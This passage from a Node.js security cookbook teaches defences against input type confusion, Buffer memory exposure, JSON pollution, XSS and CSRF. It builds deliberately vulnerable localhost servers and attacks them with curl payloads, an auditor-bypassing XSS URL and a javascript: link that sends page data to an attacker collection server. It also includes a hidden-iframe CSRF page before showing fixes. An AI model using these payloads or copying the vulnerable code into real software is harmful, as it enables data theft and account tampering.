parameters will always be strings. 

While there is no specification on how to handle multiple
parameters of the same name nor the array-like annotation
(`msg[]=eg`) Web frameworks on most platforms tend to support
these cases. Even Node's query `querystring` module will convert
multiple parameters of the same name to arrays. 

The `qs` module (which is used by both Express and Hapi), 
will convert namespace conflicts, or names with array-like annotation
(that is, with the square bracket suffix) into arrays. 

When we always assume a parameter will be a string, we may 
attempt to call a method which applies exclusively to strings
(such as `toUpperCase`) without checking the type.

When the parameter is an array, our runtime will attempt to 
invoke `undefined` as a function, and the server will crash, opening
us up to an very easily executed Denial of Service attack. 

Forgetting to check the parameter type can also lead to other 
possibilities, such as Cross Site Scripting (XSS) attacks.
For instance, XSS filtering could be bypassed in situations where
parameters are concatenated - for instance by splitting up character
series like `<script>` that would normally trigger XSS warnings.

### There's more

Let's look at some other ways malicious input might catch us off
guard.

#### Buffer safety

The `Buffer` constructor is highly powerful but with potential 
for danger.

Let's simply create an `index.js` file with the following code:

```js
const http = require('http')

const server = http.createServer((req, res) => {
  if (req.method === 'GET') {
    res.setHeader('Content-Type', 'text/html')
    if (req.url === '/') return res.end(html())
    res.setHeader('Content-Type', 'application/json')
    if (req.url === '/friends') return res.end(friends())
    
    return
  }
  if (req.method === 'POST') {
    if (req.url === '/') return action(req, res) 
  }
})

function html (res) {
  return `
    <div id=friends></div>
    <form>
      <input id=friend> <input type=submit value="Add Friend">
    </form>
    <script>
      void function () {
        var friend = document.getElementById('friend')
        var friends = document.getElementById('friends')
        function load () {
          fetch('/friends', {
            headers: {
              'Accept': 'application/json, text/plain, */*',
              'Content-Type': 'application/json'
            }
          }).catch((err) => console.error(err))
            .then((res) => res.json())
            .then((arr) => friends.innerHTML = arr.map((f) => atob(f)).join('<br>'))
        }
        load()

        document.forms[0].addEventListener('submit', function () {
          fetch('/', {
            method: 'post', 
            headers: {
              'Accept': 'application/json, text/plain, */*',
              'Content-Type': 'application/json'
            },
            body: JSON.stringify({cmd: 'add', friend: friend.value})
          }).catch((err) => console.error(err))
            .then(load)
        })
      }()
    </script>
  `
}

function friends () {
  return JSON.stringify(friends.list)
}
friends.list = [Buffer('Dave').toString('base64')]
friends.add = (friend) => friends.list.push(Buffer(friend).toString('base64'))

function action (req, res) {
  var data = ''
  req.on('data', (chunk) => data += chunk)
  req.on('end', () => {
    try {
      data = JSON.parse(data)
    } catch (e) {
      res.end('{"ok": false}')
      return
    }
    if (data.cmd === 'add') {
      friends.add(data.friend)
    }
    res.end('{"ok": true}')
  })
}

server.listen(3000)
```

We can start our server with: 

```sh
$ node index.js
```

This is a server with three routes, `GET /`, `POST /` and `GET /friends`.
The `GET /` route delivers some HTML with an inline client side script
that hits the `/friends` route, recieves a JSON array payload, and
maps over each item in the array to convert it from base64 with the 
browsers `atob` function. The `POST /` route parses any incoming JSON
payloads, checks for a `cmd` property with a value of `add` and 
calls `friends.add(data.friend)`. The `friends.add` method converts
the input into base64 and adds it to an array. On the client side, the
`load` function is called again after a successful `POST` request,
and the updated list of friends is loaded.

However, if we use `curl` to make the following request:

```sh
$ curl -H "Content-Type: application/json" -X POST -d '{"cmd": "add", "friend": 10240}' http://127.0.0.1:3000
```

And then check the browser, at http://localhost:3000,
we'll see something similar to the following:


We set the `friend` field in the JSON payload to a number, which was
passed directly to the `Buffer` constructor. The `Buffer` constructor
is polymorphic, if it's passed a string the string will be converted
to a buffer. However, if passed a number, it will allocate a buffer
to the size of that number. For performance reasons, memory for the
buffer is allocated from unlinked memory, which means potentially 
anything could be exposed, including private keys.

Let's copy `index.js` to `index-fixed.js`:

```sh
$ cp index.js index-fixed.js
```

Now we'll change the `friends` function and methods like so:

```js
function friends () {
  return JSON.stringify(friends.list)
}
friends.list = [Buffer.from('Dave').toString('base64')]
friends.add = (friend) => {
  friends.list.push(Buffer.from(friend).toString('base64'))
}
```

We're using `Buffer.from` instead of using `Buffer` directly.
The `Buffer.from` method will throw when passed a number, it
will only allow strings, arrays (and array-like objects), 
and other buffers (including `Buffer` and `ArrayBuffer` objects).

To make sure our server doesn't crash we can update the `action`
function accordingly:

```js
function action (req, res) {
  var data = ''
  req.on('data', (chunk) => data += chunk)
  req.on('end', () => {
    try {
      data = JSON.parse(data)
    } catch (e) {
      console.error(e)
      res.end('{"ok": false}')
      return
    }
    if (data.cmd === 'add') {
      try {
        friends.add(data.friend)
      } catch (e) {
        console.error(e)
        res.end('{"ok": false}')
      }
    }
  })
}
```

If we start the fixed server:

```sh
$ node index-fixed.js
```

And run the same `curl` request: 

```sh
$ curl -H "Content-Type: application/json" -X POST -d '{"cmd": "add", "friend": 10240}' http://127.0.0.1:3000
```

We'll see a response `{"ok": false}`, our server won't crash but
will log the error: "TypeError: "value" argument must not be a number".
Subsequent requests to `GET /` will show that no internal memory has been 
exposed.


#### Dealing with JSON pollution

Let create a folder called `json-validation`, initialize it as a package
and create an `index.js` file:

```sh
$ mkdir json-validation
$ cd json-validation
$ npm init -y
$ touch index.js
```

The `index.js` should look like so:

```js
const http = require('http')
const {STATUS_CODES} = http

const server = http.createServer((req, res) => {

  if (req.method !== 'POST') {
    res.statusCode = 404
    res.end(STATUS_CODES[res.statusCode])
    return
  }
  if (req.url === '/register') {
    register(req, res)
    return
  }
  res.statusCode = 404
  res.end(STATUS_CODES[res.statusCode])
})

function register (req, res) {
  var data = ''
  req.on('data', (chunk) => data += chunk)
  req.on('end', () => {
    try {
      data = JSON.parse(data)
    } catch (e) {
      res.end('{"ok": false}')
      return
    }
    // privileges can be multiple types, boolean, array, object, string,
    // but the presence of the key means the user is an admin
    if (data.hasOwnProperty('privileges')) {
      createAdminUser(data)
      res.end('{"ok": true, "admin": true}')
    } else {
      createUser(data)
      res.end('{"ok": true, "admin": false}')
    }
  })
}

function createAdminUser (user) {
  const key = user.id + user.name
  // ... 
}

function createUser (user) {
  // ... 
}

server.listen(3000)
```

Our server has a `/register` endpoint, which accepts
POST requests to (hypothetically) add users to a system.

There's two ways we can cause the server to crash.

Let's try the following curl request: 

```sh
$ curl -H "Content-Type: application/json" -X POST 
-d '{"hasOwnProperty": 0}' http://127.0.0.1:3000/register
```

This will cause our server to crash with 
"TypeError: data.hasOwnProperty is not a function". 

If an object has a `privileges` property, the server infers
that it's an admin user. Normal users don't have a privileges
property. It uses the (often recommended in alternative scenarios) 
`hasOwnProperty` method to check for the property. This is because
the (pretend) system requirements property allow for the `privileges`
property to be `false`, which is an admin user with minimum permissions.

By sending a JSON payload with that key, we over-shadow the 
Object.prototype.hasOwnProperty method, setting it to `0` 
which is a number, not a function. 

If we're checking for the existence of a value in an object which 
we know to be parsed JSON we can check if the property is `undefined`.
Since `undefined` isn't a valid JSON value, this means we know for sure 
that the key doesn't exist.

So we could update the if statement `if (data.hasOwnProperty('privileges'))`
to `if (data.privileges !== undefined)`. However, this is more of a bandaid
than a solution, what if our object is past to another function, perhaps
one in a module which we didn't even write, and the `hasOwnProperty` method
is used there? Secondly it's a specific work around, there are other 
more subtle ways to pollute a JSON payload.

Let's start our server again and run the following request: 

```sh
$ curl -H "Content-Type: application/json" -X POST 
-d '{"privileges": false, "id": {"toString":0}, "name": "foo"}' 
http://127.0.0.1:3000/register
```

This will cause our server to crash with the error 
"TypeError: Cannot convert object to primitive value".

The `createAdminUser` function creates a `key` variable, 
by concatenating the `id` field with the `name` field from
the JSON payload. Since the `name` field is a string, 
this causes `id` to be coerced (if necessary) to a string.
Internally JavaScript achieves this by calling the `toString`
method on the value (excepting `null` and `undefined`
every primitive and object has the `toString` method on it's 
prototype). Since we set the `id` field to an object, with a
`toString` field set to `0` this overrides the prototypal 
`toString` function replacing it with a the number `0`.

This `toString` (and also `valueOf`) case is harder to protect 
against. To be safe we need check the type of every value in the JSON, 
to ensure that it's not an unexpected type. Rather than doing this
manually we can use a schema validation library, 

Generally, if JSON is being passed between back end services,
we don't need to concern our selves too much with JSON pollution. 
However, if a service is public facing, we are vulnerable. 

In the main, it's a best practice to use schema validation for 
any public facing servers that accept JSON, doing so avoids these
sorts of issues (and potentially other issues when the data passes
to other environments such as databases). 

Let's install `ajv`, a performance schema validator
and copy the `index.js` file to `index-fixed.js`

```sh
$ npm install --save ajv
$ cp index.js index-fixed.js
```

We'll make the top of `index-fixed.js` should look like the following:

```js
const http = require('http')
const Ajv = require('ajv')
const ajv = new Ajv
const schema = {
  title: 'UserReg',
  properties: {
    id: {type: 'integer'},
    name: {type: 'string'},
    privileges: {
      anyOf: [
        {type: 'string'},
        {type: 'boolean'},
        {type: 'array', items: {type: 'string'}},
        {type: 'object'}
      ]
    }
  },
  additionalProperties: false,
  required: ['id', 'name']
}
const validate = ajv.compile(schema)
const {STATUS_CODES} = http
``` 

> ##### JSONSchema  
> The `ajv` module uses the JSONSchema format
> for declaring object schemas. Find out more at <http://json-schema.org>

The `register` function, we'll alter like so:

```js
function register (req, res) {
  var data = ''
  req.on('data', (chunk) => data += chunk)
  req.on('end', () => {
    try {
      data = JSON.parse(data)
    } catch (e) {
      res.end('{"ok": false}')
      return
    }
    const valid = validate(data, schema)
    if (!valid) {
      console.error(validate.errors)
      res.end('{"ok": false}')
      return
    }
      
    if (data.hasOwnProperty('privileges')) {
      createAdminUser(data)
      res.end('{"ok": true, "admin": true}')
    } else {
      createUser(data)
      res.end('{"ok": true, "admin": false}')
    }
  })
}
```

Now if we re-run the `toString` attack:

```sh
$ curl -H "Content-Type: application/json" -X POST -d '{"privileges": false, "id": {"toString": 0}, "name": "foo"}' http://127.0.0.1:3000/register
```

Our server stays alive, but logs a validation error:

```
[ { keyword: 'type',
    dataPath: '[object Object].id',
    schemaPath: '#/properties/id/type',
    params: { type: 'integer' },
    message: 'should be integer' } ]
```

Because we set `additionalProperties` to false on the schema, 
the `hasOwnProperty` attack also fails (request made with additional required fields):

```sh
$ curl -H "Content-Type: application/json" -X POST -d '{"hasOwnProperty": 0, "id": 10, "name": "foo"}' http://127.0.0.1:3000/register
```

Our server stays alive, while an error message is logged:

```
[ { keyword: 'additionalProperties',
    dataPath: '[object Object]',
    schemaPath: '#/additionalProperties',
    params: { additionalProperty: 'hasOwnProperty' },
    message: 'should NOT have additional properties' } ]
```

### See also

* *Receiving POST Data* in **Chapter 5 Wielding Web Protocols**
* *Creating an HTTP server* in **Chapter 5 Wielding Web Protocols**
* *Creating an Express Web App* in **Chapter 7 Working with Web Frameworks**
* *Implementing Authentication* in **Chapter 7 Working with Web Frameworks**

## Guarding Against Cross Site Scripting (XSS)

Cross site scripting attacks are one of the most prevalent 
and serious attacks today. XSS exploits can endanger users 
and reputations in profound ways, but vulnerabilities occur
easily especially when we don't practice an awareness of this
particular area. 

In this recipe, we're going to discover an XSS vulnerability
and solve it.

### Getting Ready

Let's create a folder called `app`, initialize it as a package,
install `express` and create an `index.js` file

```sh
$ mkdir app
$ cd app
$ npm init -y
$ npm install --save express
$ touch index.js
```

Our `index.js` file should look like this:

```js
const express = require('express')
const app = express()

app.get('/', (req, res) => {
  const {prev = '', handoverToken = '', lang = 'en'} = req.query
  pretendDbQuery((err, status) => {
    if (err) {
      res.sendStatus(500)
      return
    }
    res.send(`
      <h1>Current Status</h1>
      <div id=stat>  
        ${status}
      </div>
      <br>
      <a href="${prev}${handoverToken}/${lang}"> Back to Control HQ </a>
    `)
  })

})

function pretendDbQuery (cb) {
  const status = 'ON FIRE!!! HELP!!!'
  cb(null, status)
}


app.listen(3000)
```

### How to do it

Let's start the server we prepared in the *Getting Ready*
section:

```sh
$ node index.js
```

Our server is emulating a scenario where one page is handing over
some minimal state to another via GET parameters. 

The parameters (`prev` `handoverToken` and `lang`) are quite innocuous
and indeed valid in many scenarios.

An example request to our server would look something like,
http://localhost:3000/?prev=/home&handoverToken=JZ2AHE3GVVDBAI9XFPOAV2T9&lang=en.

Let's try opening this route in our browser:



This page represents some kind of critical user information,
perhaps the state of a financial portfolio, an urgent scheduling
change, or perhaps an industrial or technical status relevant
to an individuals job. In any case, it's important that this information
is accurate and up to date, if an attacker with an agenda could cause
this important page to show misinformation for their own purposes the
consequences could be substantial. 

Let's imagine an attacker sends an email to a target, asking them to 
check the following URL status and make a decision based on that status,
the URL the attacker creates is the following:

http://localhost:3000/?prev=%22%3E%3Cscri&handoverToken=pt%3Estat.innerHTML=%22it%27s%20all%20good...%3Cbr%3Erelax%20:)%22%3C&lang=script%3E%3Ca%20href=%22

If we visit the browser at this URL we should see something like:


To fix this vulnerability we need to escape the input 

Let's copy the `app` folder to `fixed-app`:

```sh
$ cp -fr app fixed-app
```

Then in the `fixed-app` folder, we'll install the `he`
module:

```sh
$ npm install --save he
```

Next we'll require `he` into `index.js`; the 
top of `index.js` should look like so:

```js
const express = require('express')
const he = require('he')
const app = express()
```

Finally we'll encode all input, let's alter our route handler
as follows: 

```js
app.get('/', (req, res) => {
  const {prev = '', handoverToken = '', lang = 'en'} = req.query
  pretendDbQuery((err, status) => {
    if (err) {
      res.sendStatus(500)
      return
    }
    const href = he.encode(`${prev}${handoverToken}/${lang}`)
    res.send(`
      <h1>Current Status</h1>
      <div id=stat>  
        ${he.escape(status)}
      </div>
      <br>
      <a href="${href}"> Back to Control HQ </a>
    `)
  })
})
```

We extracted the url portion of our HTML into the `href` constant,
and passed the entire concatenated string into the `he.encode`
function. Notably, we also escaped data coming from our (pretent)
database query - we pass the `status` argument through `he.escape`.   

Now if we run our `fixed-app` server:

```sh
$ node index.js
```

And attempt to access the same URL (http://localhost:3000/?prev=%22%3E%3Cscri&handoverToken=pt%3Estat.innerHTML=%22it%27s%20all%20good...%3Cbr%3Erelax%20:)%22%3C&lang=script%3E%3Ca%20href=%22) 
in the browser, we should see the intended status, as in the following image.



> #### We're not fully secure yet 
> Our app still has another XSS vulnerability.
> We'll deal with this further in the **There's More** section

### How it works

There are two mains types of XSS, reflected and persistent.
Persistent XSS is where an attacker was able to implant a code
exploit within a persistent layer of our architecture (for instance,
a server side database, but also caching layers and browser persistant
could come under the same banner). Reflected XSS is a reliant on a single
interaction with a server, such that the content returned by the server
contains the code exploit. 

In our case, the main problem is a reflected XSS vulnerability.

The way the `href` attributed of the anchor tag (`<a>`) is constructed
from input parameters allows an attacker to create a URL that can 
effectively break context (i.e. the context of being an HTML attribute),
and inject code into the client. 

Let's take the parameters in the malicious URL and break them down.
First there's the `prev` parameter, which is set to `%22%3E%3Cscri`.
For clarity, we can quickly decode the URI encoded elements like so:

```sh
$ $ node -p "decodeURI('%22%3E%3Cscri')"
"><scri  
```

The anchor element in our original `app` looks like this:

```html
<a href="${prev}${handoverToken}/${lang}"> Back to Control HQ </a>
```

If we replace the `prev` interpolation in place we get:

```html
<a href=""><scri${handoverToken}/${lang}"> Back to Control HQ </a>
```

So we've been able to close the `href` attibute and the `<a>` tag
and begin the `<script>` tag. 

We can't just put the entire `<script>` tag in a single parameter,
at least not in Chrome. Chrome has an "XSS auditor" which is enabled
by default.
```

> #### XSS Auditor 
> For more on Chromes XSS auditor see the **Hardening Headers in Web Frameworks** 
> recipe, in particular the portion about the `XSS-Protection` header 

If we move the `pt>` characters from the `handoverToken` parameter into
the `prev` parameter, in Chrome, and open Chrome Devtools we'll see 
an error message as shown in the following image:



By spreading the `<script>` tag across two injected parameters, we 
were able to bypass Chromes XSS auditor (at least the time of writing,
if this no longer works in Chrome at the time of reading, 
we may be able to run the exploit in another browser, such as Safari, IE, or Firefox).

The `handoverToken` parameter is `pt%3Estat.innerHTML=%22it%27s%20all%20good...%3Cbr%3Erelax%20:)%22%3C`.

Let's decode that:

```sh
$ node -p "decodeURI('pt%3Estat.innerHTML=%22it%27s%20all%20good...%3Cbr%3Erelax%20:)%22%3C')"
pt>stat.innerHTML="it's all good...<br>relax :)"<
```

Let's replace the interpolated `handoverToken` in our HTML alongside
the replace `prev` token:

```html
<a href=""><script>stat.innerHTML="it's all good...<br>relax :)"</${lang}"> Back to Control HQ </a>
``` 

Now we've been able to complete the `<script>` tag and insert
some JavaScript which will run directly in the browser when the page loads.

The injected code accesses the `<div>` element with an `id` attribute of`
`stat` and sets the `innerHTML` to an alternative status. The HTML5 specification indicates that the value of an `id`
field should become a global variable (see https://html.spec.whatwg.org/#named-access-on-the-window-object).
While we could use `document.getElementById` we use the shorthand version
for our purposes (although as a development practice this a brittle approach).

Finally, the `lang` token is `script%3E%3Ca%20href=%22`. 

Let's decode it:

```sh
$ node -p "decodeURI('script%3E%3Ca%20href=%22')"
script><a href="
```

Now let's insert that into the HTML:

```html
<a href=""><script>stat.innerHTML="it's all good...<br>relax :)"</script><a href=""> Back to Control HQ </a>
```

Notice how this attack utilized the forward slash (`/`) in the URL as 
the forward slash for the closing `</script>` tag. After closing the
script tag, the JavaScript will now run in the browser, but to avoid
raising suspicion the attack also creates a new dummy anchor tag to
prevent any broken HTML appearing in the page. 

We pass the fully assembled contents of the `href` attribute through 
the `he.encode` function. The `he.encode` function performs 
HTML Attribute Encoding, whereas the `he.escape` function (used 
on the `status` argument) performs HTML Entity encoding. 
Since we're placing user input inside an HTML attribute, the safest
way to escape the input is by encoding all non-alphanumeric characters
as hex value HTML entities. For instance the double quote `"` becomes
`&#x22;`, which prevents it from closing out the attribute.

We also pass the `status` parameter which originates in from our
`pretendDbQuery` call through the `he.escape` function. 
The `he.escape` function converts HTML syntax into HTML (semantic) entities, 
for instance the opening tag less than character (`<`) becomes `&lt;`. 

All input that isn't generated by our Node process should be treated 
as user input. We cannot guarantee whether other parts of the system have allowed
uncleaned user input into the database, so to avoid persistent XSS 
attacks we need to clean database input as well.

We pass `status` through `he.escape` because it appears in a general 
HTML context, whereas we pass `href` through `he.encode` because it 
appears in an HTML attribute context.

### There's more

Our server is still vulnerable, let's fix it. Also let's explore
some other practices that help with general server security. 

#### Preventing protocol-handler-based XSS

Our server is still vulnerable to XSS injection.

In this scenario, an attacker is going to steal the status
(which represents privileged information).

Let's use the following command to create a "malicious" 
data collection server: 

```sh
$ node -e "require('http').createServer((req, res) => {
  console.log(
    req.connection.remoteAddress, 
    Buffer(req.url.split('/attack/')[1], 'base64').toString().trim()
  )
}).listen(3001)"
```

We're using the `-e` flag (evaluate) to quickly spin up an HTTP 
server that logs the user IP address, and stolen status. It's 
expecting the status to be base64 encoded (this helps to avoid
potential errors on the client side). 

Now let's start the `fixed-app` server from the main recipe:

```sh
$ cd fixed-app
$ node index.js
``` 

In the browser, we'll use the following URL to initiate the attack:

http://localhost:3000/?prev=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(stat.innerHTML)}`,0/

This won't change any visible rendering but it will cause the 
"Back to Control HQ" link to point to `javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(stat.innerHTML)}``,0/`.

When the link is clicked, an HTML `` element is created, 
(via the JavaScript `Image` constructor), with the `src` attribute set to
our attack server with the base64 encoded stolen status. We use the `btoa`
global function to base64 encode, and the global DOM element ID behavior
to again grab the inner html of the status `<div>`. The following `,0` 
portion causes the return value of the entire expression to be 
falsey, if the return value is not falsey the browser will render it
(in this case the absence of the `,0` would result in the browser rendering
the attack URL, which is a dead giveaway). The final forward slash `/`
couples with the forward slash after the `prev` parameter to create a 
double forward slash (`//`), which in JavaScript is comment. This causes
the rest of the content in the `href` to be ignored.  

If we click the link, our data collection server should show a message: 

```
::1 ON FIRE!!! HELP!!!
```

As shown in the following image:


`::1` is the IPv6 address for the localhost (the equivalent of `127.0.0.1`).

The `javascript:` protocol handler allows for JavaScript execution 
as a URI. This is of course, a terrible idea. However, custom protocol
handlers are introduced into browsers all the time and may also have
vulnerabilities. For instance the Steam gaming platform when installed
introduces the `steam://` protocol into browsers, which could in turn be
exploited to execute arbitrary Operating System commands on the host machine
via a second buffer overflow vulnerability in Steams splash screen (see 
http://revuln.com/files/ReVuln_Steam_Browser_Protocol_Insecurity.pdf).

Our server is vulnerable because we allow user input to determine the
beginning of a `href` attribute - the only safe way to avoid a protocol
handler exploit is to never do that.  

We can fix this by including an explicit route in the `href` attribute. 

Let's copy `fixed-app` to `protocol-safe-app`:

```sh
$ cp -fr fixed-app protocol-safe-app
```

Now let's modify the `href` constant to:

```js
    const href = escapeHtml(`/${prev}${handoverToken}/${lang}`)
```

If we stop the `fixed-app` server and start the `protocol-safe-app`
server:

```sh
$ cd protocol-safe-app
$ node index.js
```

And attempt to use the same URL http://localhost:3000/?prev=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(stat.innerHTML)}`,0/,
when we click the "Back to Control HQ" link, we should instead receive 
a 404 message (in development the message will be something like "Cannot GET /javascript:(new%20Image().src)=%60http://localhost:3001/attack/$%7Bbtoa(stat.innerHTML)%7D%60,0//en").

> #### CSRF 
> This attack conceptually touches on CSRF, by using XSS to initiate  
> an attack that uses the (hypothetical) access privilege 
> of the user to execute commands on their behalf. We'll find out 
> more about CSRF in the **Preventing Cross Site Request Forgery** recipe.

#### Parameter Validation

The browser address bar does not wrap a long URL, if the URL is longer
than the address bar the remainder of the URL is hidden. 

This can make it difficult, even for savvy users, to identify a malicious URL,
especially when the site has a tendency to use long URLs in the first place.
This is, even more of a problem on mobile devices. 

In general, even for useability, it's good practice to keep URLs as 
short as possible. Enforcing a short URL length 
(that fits in a smallish desktop browser window), 
to say, 140 characters is probably too brittle for most sites, but one
thing we could do in our case is enforce expected parameter constraints.

Let's copy the original `app` folder we prepared in the **Getting Ready**
section to a folder called `param-constraints-app`:

```sh
$ cp -fr app param-constraints-app
```

In `index.js` we'll create a simply validation function:

```js
function validate ({prev, handoverToken, lang}, query) {
  var valid = Object.keys(query).length <= 3
  valid = valid && typeof lang === 'string' && lang.length === 2
  valid = valid && typeof handoverToken === 'string' && handoverToken.length === 16
  valid = valid && typeof prev === 'string' && prev.length < 10
  return valid
}
```

> ##### Object Validation 
> For serious validation, check out the http://npm.im/joi module, 
> it's primarily maintained by the HapiJS community but it can be
> used with any web framework. 

Now we'll insert validation near the top of our route handler:

```js
app.get('/', (req, res) => {
  const {prev = '', handoverToken = '', lang = 'en'} = req.query

  if (!validate({prev, handoverToken, lang}, req.query)) {
    res.sendStatus(422)
    return
  }

  pretendDbQuery((err, status) => {
    if (err) {
      res.sendStatus(500)
      return
    }
    res.send(`
      <h1>Current Status</h1>
      <div id=stat>  
        ${status}
      </div>
      <div>
      <a href="${prev}${handoverToken}/${lang}"> Back to Control HQ </a>
      </div>
    `)
  })

})
```

Now if we try the malicious URL from the main recipe, 
http://localhost:3000/?prev=%22%3E%3Cscri&handoverToken=pt%3Estat.innerHTML=%22it%27s%20all%20good...%3Cbr%3Erelax%20:)%22%3C&lang=script%3E%3Ca%20href=%22
we'll get an "Unprocessable Entity" response. 

While strict parameter validation does make it far more difficult to craft 
a malicious URL it is not as safe as escaping the HTML and avoiding 
protocol handlers - for instance the following URL can still execute
JavaScript when the link is clicked: 

http://localhost:3000/?prev=javasc&handoverToken=ript:alert(%27hi%27)

This is because the parameters still fit in the constraints. 

A combination of escaping user input and external data, 
avoiding user input from setting protocol handlers in URLs and
enforcing parameter constraints is the safest approach.  

#### Escaping in JavaScript contexts 

We've explored both HTML and HTML attribute encoding, but user
input may appear in other contexts too, such as in a piece of 
of JavaScript code. While embedding user input in JavaScript 
is highly recommended against if there ever is cause we
should escape untrusted input in JavaScript with unicode escapes.

We can use jsesc to do this https://github.com/mathiasbynens/jsesc.

> ##### OWASP Output encodings 
> For a full list of encoding formats for various scenarios
> see https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet#Output_Encoding_Rules_Summary

### See also

* *Creating an HTTP server* in **Chapter 5 Wielding Web Protocols**
* *Creating an Express Web App* in **Chapter 7 Working with Web Frameworks**
* *Implementing Authentication* in **Chapter 7 Working with Web Frameworks**


* *Creating an Express Web App* in **Chapter 7 Working with Web Frameworks**
* *Implementing Authentication* in **Chapter 7 Working with Web Frameworks**

## Preventing Cross Site Request Forgery

The browser security model, where a session cookie
is valid globally among all windows/tabs, allows 
for a request to be made with the privileges of the logged 
in user.

Where Cross Site Scripting (XSS) is making code delivered through
one place (be it a malicious site, email, text message, downloaded file, etcetera),
execute on another site, Cross Site Request Forgery is the act of
making a request from one place (again either a malicious site or otherwise)
to another site that a user is logged into - that is where they 
have an open HTTP Session.

In short, XSS is running malicious code on another site, 
CSRF is making a request to another site that executes an 
action on a logged in users behalf. 

In this recipe, we're going to secure a server against CSRF
attacks.

### Getting Ready

We're going to create a simple server that manages "Employee Payment Profile"
updates, and an adversarial server that uses CSRF to change where 
an employees hypothetical salary is sent.

To demonstrate cross domain interaction locally, we need to simulate
domains on our host machine, we can use the `devurl` tool,
let's install it like so:

```sh
$ npm install -g devurl
```

Let's begin with the target server, we'll create a folder called `app`,
initialize it as a package, install `express`, `express-session` and `body-parser`
and `he`, and create an `index.js` file:

```sh
$ mkdir app
$ cd app
$ npm init -y
$ npm install express express-session body-parser he
$ touch index.js
```

Our `app/index.js` should look as follows:

```
const express = require('express')
const bodyParser = require('body-parser')
const session = require('express-session')
const he = require('he')
const app = express()

const pretendData = {
  dave: {
    ac: '12345678',
    sc: '88-26-26'
  }
}

app.use(session({
  secret: 'AI overlords are coming',
  name: 'SESSIONID',
  resave: false,
  saveUninitialized: false  
}))

app.use(bodyParser.urlencoded({extended: false}))

app.get('/', (req, res) => {
  if (req.session.user) return res.redirect('/profile')
  res.send(`
    <h1> Login </h1>
    <form method="POST" action="/">
      <label> user <input name=user> </label> <br>
      <label> pass <input name=pass type=password> </label> <br>
      <input type=submit>
    </form>
  `)
})

app.post('/', (req, res) => {
  if (req.body.user === 'dave' && req.body.pass === 'ncb') {
    req.session.user = req.body.user
  }
  if (req.session.user) res.redirect('/profile')
  else res.redirect('/')
})

app.get('/profile', (req, res) => {
  if (!req.session.user) return res.redirect('/')
  const {prev = '', handoverToken = '', lang = 'en'} = req.query
  pretendDbQuery(req.session.user, (err, {sc, ac}) => {
    if (err) {
      res.sendStatus(500)
      return
    }
    sc = he.encode(sc)
    ac = he.encode(ac)
    res.send(`
      <h1>Employee Payment Profile</h1>
      <form method="POST" action=/update>
        <label> Sort Code <input name=sc value="${sc}"> </label> <br>
        <label> Account # <input name=ac value="${ac}"> </label> <br>
        <input type=submit>
      </form>
    `)
  })
})

app.post('/update', (req, res) => {
  if (!req.session.user) return res.sendStatus(403)
  pretendData[req.session.user].ac = req.body.ac
  pretendData[req.session.user].sc = req.body.sc
  res.send(`
    <h1> updated </h1>
    <meta http-equiv="refresh" content="1; url=/profile">
  `)
})

function pretendDbQuery (user, cb) {
  cb(null, pretendData[user])
}

app.listen(3000)
```

> #### `he.encode` 
> See the **Guarding Against Cross Site Scripting (XSS)** recipe in this
> chapter for details on why we use `he.encode` here.

Now we'll create a hypothetical attackers server. 
First we'll change directory up from the `app` folder, create an 
`attacker` folder, with an `index.js` file:

```sh
$ cd ..
$ mkdir attacker
$ cd attacker
$ touch index.js
```

The `attacker/index.js` should look as follows:

```js
const http = require('http')

const attackerAc = '87654321'
const attackerSc = '11-11-11'
const attackerMsg = 'Everything you could ever want is only one click away'

const server = http.createServer((req, res) => {
  res.writeHead(200, {'Content-Type': 'text/html'})
  res.end(`
    <iframe name=hide style="position:absolute;left:-1000px"></iframe>
    <form method="post" action="http://app.local/update" target=hide>
      <input type=hidden name=sc value="${attackerAc}">
      <input type=hidden name=ac value="${attackerSc}">
      <input type=submit value="${attackerMsg}">
    </form>
  `)
})

server.listen(3001)
```

### How to do it

First let's explore the problem. We'll start both the vulnerable and
adversarial servers. 

If, on the command line, we are in the directory directly above the `app`
and `attacker` we can start each server by referencing the folder:

```sh
$ node app/
```

And in another terminal window:

```sh
$ node attacker/
```

Now let's set up some local domains to proxy to our two servers,
using `devurl` (which we installed in the **Getting Ready** section).

In a third terminal window, we run:

```sh
$ devurl app.local http://localhost:3000
```

And in yet another terminal window:

```sh
$ devurl attacker.local http://localhost:3001


Next let's navigate our browser to http://app.local,
and login with the username of "dave" and password of "ncb",
this should result in the following profile screen:


The details show that the account number is 12345678
and the sort code is 18-26-26.

Now let's open a new tab, and navigate to http://attacker.local:



While every instinct tells us not to click the button which says
"Everything you could ever want is only one click away", let's
click it. 

Now if we go back to the first tab, and refresh, we'll find 
that the details now show account number, 87654321
with sort code 11-11-11. 

This attack would work even if the first tab (where we initially
logged in) was closed. As long as the browser still has a session
cookie, any other tab or window can submit POST requests as a logged
in user. 

Now let's fix it. Let's copy the `app` folder to `fixed-app`.

```sh
$ cp -fr app fixed-app
```

In `fixed-app/index.js` we'll update the session middleware like so:

```js
app.use(session({
  secret: 'AI overlords are coming',
  name: 'SESSIONID',
  resave: false,
  saveUninitialized: false,
  cookie: {
    sameSite: true
  }
}))
```

Now let's stop the `app` server and run the `fixed-app` server:

```sh
$ node fixed-app/
```

Also, we need to restart the `devurl` proxy:

```sh
$ devurl app.local http://localhost:3000
```

If we navigate the browser to http://app.local again,
and login we'll see the profile screen as before.
Opening a new tab at http://attacker.local and clicking the
button should have no effect (which we can verify by 
refreshing the http://app.local tab, as before). We should also 
see a 403 Forbidden error in Chromes Devtools.

> #### Browser Support 
> **WARNING**: The technique in this recipe is only supported
> in modern browsers, see http://caniuse.com/#feat=same-site-cookie-attribute
> for browser version support. In the **There's More** 
> section we'll include a fallback technique that is essential to
> avoiding CSRF attacks for browsers who lack support for the SameSite
> cookie.  

### How it works

The `express-session` `cookie.sameSite` option is passed to the
the underlying `cookie` module which generates a `Set-Cookie`
HTTP header with `SameSite=Strict` appended to the end. 

For instance, header might look like:

```
Set-Cookie: SESSIONID=s%3Au1OmVSF6bQUXxMz4eIS4F8-32pK0rikc.f1y…bHX7QUGcH9ix5A; Path=/; HttpOnly; SameSite=Strict
``` 

Notice `SameSite=Strict` at the end. The `SameSite` directive can be 
set to `strict` or `lax` - using `true` equates to setting it to `strict`.

The `lax` mode allows `GET` requests (which should be immutable)
